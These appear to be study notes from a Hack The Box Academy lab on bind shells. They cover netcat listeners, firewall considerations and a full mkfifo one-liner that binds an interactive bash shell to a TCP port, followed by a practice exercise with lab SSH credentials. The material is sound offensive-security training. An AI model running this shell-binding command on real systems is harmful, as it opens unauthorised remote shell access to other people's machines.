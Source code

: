 In a bind shell, you start a listener on the target `nc -nvlp 8000` and you connect to via your attacker machine

![[bind_shell.png]]

#### Things to Consider:

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls will likely block most incoming connections that aren't associated with trusted network-based applications.

**Start Ncat listener on the target**
```
nc -lvnp 7777
```

**Connect to the target from your attacker(client)**
```
nc -nv 10.129.41.200 7777
```


- The above is not a bind shell because we cannot interact with the OS and file system. 
- We are only able to pass text within the pipe setup by Netcat. 
- Now use Netcat to serve up our shell to establish a real bind shell.
#### Binding a bash shell to the TCP session
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

**Now connect the binding shell on your attacker(client)**
```shell-session
nc -nv 10.129.41.200 7777
```

#### Practice

SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.
	**SSH to 10.129.201.134 with user "htb-student" and password "HTB_@cademy_stdnt!"**



